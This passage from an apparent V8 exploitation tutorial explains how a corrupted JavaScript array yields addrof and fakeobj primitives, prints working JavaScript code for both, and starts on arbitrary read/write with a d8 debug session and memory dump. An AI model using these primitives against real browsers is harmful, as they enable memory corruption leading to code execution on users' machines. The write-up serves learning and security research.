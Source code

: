 Success, we changed the element pointer of the `JSArray` i.e. `aux_arr` then after that we check the first element of the `aux_arr` since we put the fake map object i.e. the address of the  `obj_arr` then when we tend to see the content of the element it'll result in the leak of the `obj_arr`'s map. In the context of JIT exploitation, this is what we call `addrof` since we can get the address of an arbitrary object from the engine. 

Now, we have to write `addrof` as a function to help later in the exploit:-

```js
function addrof(obj) {
    aux_arr = aux_float_arr.slice(aux_float_arr) // slice the array to access the map and the element pointer 
    aux_arr[4] = itof((ftoi(aux_arr[4], 64) & 0xffffffff00000000n) + elem_obj_arr, 64); // Change the element pointer to the address of `obj_arr`'s element's
    aux_obj_arr[0] = obj; // Place the object at 0th index
    return ftoi(aux_arr[0], 32) // Get the address of the object
}
```

The `fakeobj` function:-

```js
function fakeobj(addr) {
    let fake;    // Declare the fake variable
    aux_arr = aux_float_arr.slice(aux_float_arr); // slice the array to access the map and the element pointer
    aux_arr[0] = itof(addr, 32);                  // Make the 0th index the address
    aux_arr[3] = itof((ftoi(aux_arr[3], 64) & 0xffffffff00000000n) + obj_arr_map, 64); // Change the map of the array to object's map
    fake = aux_arr[0]; 
    return fake;
}
```

We will see how both of these functions can be used in the arbitrary read and write, don't worry if you don't understand because the next section is very detailed.

# Arbitrary r/w 

From start to end, we had this one goal to get an arbitrary read/write primitive, now it's time to see it in action. First off, we will start off with the arbitray read and see how we can read any arbitrary address with the use of `fakeobj` and `addrof`.

To perform arbitrary read, what we will do is create a float array and make the element of the 0th index of the float array to the value of the float array's map using `slice`. Then we set the value of the map to of a fake object then the 3rd index of the float array will be treated as the elemnt pointer of the fake object.

Let's see it in the `d8` shell itself:-

```asm
d8> var a = [1.1, 1.2, 1.3];
undefined
d8> %DebugPrint(a);
DebugPrint: 0x369d08086c99: [JSArray]
 - map: 0x369d082438fd <Map(PACKED_DOUBLE_ELEMENTS)> [FastProperties]
 
 -- snip -- 

gef➤  x/10xg 0x369d08086c99 - 0x30 - 1
0x369d08086c68:	0x0000000008086c39	0x08042211fffffffe 
0x369d08086c78:	0x0000000608042a31	0x3ff199999999999a
0x369d08086c88:	0x3ff3333333333333	0x3ff4cccccccccccd
0x369d08086c98:	0x080426dd082438fd	0x0000000608086c79 <---- JSArray
0x369d08086ca8:	0xd15095f608042545	0x626544250000000f

element: `0x369d08086c68`
```